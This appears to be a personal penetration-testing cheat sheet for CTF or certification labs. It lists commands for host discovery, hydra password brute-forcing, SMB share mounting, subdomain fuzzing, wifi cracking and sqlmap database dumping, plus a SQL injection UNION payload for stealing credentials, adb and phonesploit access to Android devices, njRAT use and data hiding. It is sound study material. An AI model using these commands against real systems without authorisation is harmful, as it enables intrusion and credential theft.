 ftp
smb
hydra
greenbone
aircrack (no need wordlist for "WEP.cap" file)
RAT - njRAT (search for the sa_code.txt)
BC-TextEncoder

------------------------------------------------------------------------------------------------------------------------------------------------

To find the live host connected to one subnet / host discovery:
nmap -sn 192.168.29.1 (last no. give 1) /24

or

Sudo netdiscover -r 192.168.29.1/24

subnet: IP/24


sudo masscan $IP -p1-65535,U:1-65535 --rate=2000 | tee open_ports


cat open_port | cut -d ' ' -f 4 | cut -d '/' -f 1


nmap -A $IP -p(ports) -T4 | tee open_services


To crack the password using Hydra:
hydra -l jenny -P /usr/share/seclists/Passwords/Common-Credentials/best1050.txt 10.10.159.162 ftp -V -f (to stop when the passsword is found)

--------------------------------------------------------------------------------------------------------------------------------------------------

smbclient -L \\\\IP\\
To connect with smb using username:
smbclient -L ////IP// --user <name>

To mount the shares:
mkdir /mnt/smb_share - create a dir in the mount file

mount -t cifs //10.129.131.234/backups(share name) /mnt/smb_share -o username=name

To unmount the shares:
umount -l -t cifs /mnt/smb_share

----------------------------------------------------------------------------------------------------------------------------------------------------

Subdomain search:
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://FUZZ.thetoppers.htb/


Directory search:
wfuzz -Z -c -z file,/usr/share/seclists/Discovery/Web-Content/common.txt --sc 200 http://10.10.74.245/FUZZ/


sub-domain:
wfuzz -Z -c -z file,/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --sc 200 http://FUZZ.thetopper.htb/

-------------------------------------------------------------------------------------------------------------------------------------------------

severity scan (End of life): Greenbone Tool

scan -> Tasks

Task wizard -> Enter the IP and then start scan

------------------------------------------------------------------------------------------------------------------------------------------------

Wifi password Cracking:
sudo aircrack-ng <cap file> -w <passwordlist>

-------------------------------------------------------------------------------------------------------------------------------------------------

Veracrypt:
select file (that secret file ) -> mount -> (then the cracked password)

and then find the code in eg.txt

-------------------------------------------------------------------------------------------------------------------------------------------------

IoT
wireshark:
open the cap file in wireshark
Type "mqtt" in the top -> search for publish message length -> and type the msg length

-------------------------------------------------------------------------------------------------------------------------------------------------

sqlmap
2 ways: 
1. Request file
2. Http url

without login:
1.
sqlmap -u http://www.moviescope.com/ --forms 

sqlmap -u http://www.moviescope.com/ --forms --dbs

sqlmap -u http://www.moviescope.com/ --forms -D <database name> --tables

sqlmap -u http://www.moviescope.com/ --forms -D <database name> -T table name --columns


2.
in the req.txt file where ever you put * sql injection will be done there
sqlmap -r req

sqlmap -r req --dbs

sqlmap -r req -D <database name> --tables

sqlmap -r req -D <database name> -T table name --columns

-------------------------------------------------------------------------------------------------------------------------------------------------
DoS
wireshark:
.pcapng
statistics -> check for the highest amount of "count"

------------------------------------------------------------------------------------------------------------------------------------------------

Malware analyst
PE Explorer - to find the entry point
file -> open file - add the file to PE

------------------------------------------------------------------------------------------------------------------------------------------------

privilege esc:
go to the root dir and check for the eg.txt

sudo -l 
winPEAS
Metasploit

-----------------------------------------------------------------------------------------------------------------------------------------------

port - 5555 -----> Android Device

adb connect 10.10.1.14:5555

adb devices

adb shell

use "ls" to list the files and then use phonesploit

find / -name README 2>/dev/null

find /home/Scan -name elf 2>/dev/null


By using Phonesploit:
cd phonesploit

python phonesploit.py

Enter IP add

9 - pull folder from phone to pc

scan - folder name yu want to pull

. - where yu want to pull

zip the folder yu have pulled

On python server in cmd and transfer the folder to windows system

open Detect It Easy(DIE):

open file - check one by one entropy value and then check for the highest value

and now calculate the hash value

----------------------------------------------------------------------------------------------------------------------------------------------

SQL Injection:

'+UNION+SELECT+username,+password+FROM+users--

---------------------------------------------------------------------------------------------------------------------------------------------

Stegnography:

Openstego - to extract the data from the image

Snow: 
SNOW.EXE -C -p password -m "ransomeware" steg.txt cipher.txt
SNOW.EXE -C -p password cipher.txt

Data windows Alternate Stream:
To hide:
echo "Secret message" > new.txt:secret.txt

To read:
notepad new.txt:secret.txt

To see the hidden data in cmd:
dir /R

-----------------------------------------------------------------------------------------------------------------------------------------------

ssh username@IP

----------------------------------------------------------------------------------------------------------------------------------------------

njRAT - open a file using njrat 
aftr yu connect to the machine
right click on the detected machine --> select manager or open folder

---------------------------------------------------------------------------------------------------------------------------------------------

To Search in ftp:
lftp username@<IP>
find . | grep flag.txt
find
find .

---------------------------------------------------------------------------------------------------------------------------------------------

nikto -h <website> -Tuning x

---------------------------------------------------------------------------------------------------------------------------------------------
search only from the dir where yu are:
grep -rn flag.txt

----------------------------------------------------------------------------------------------------------------------------------------------
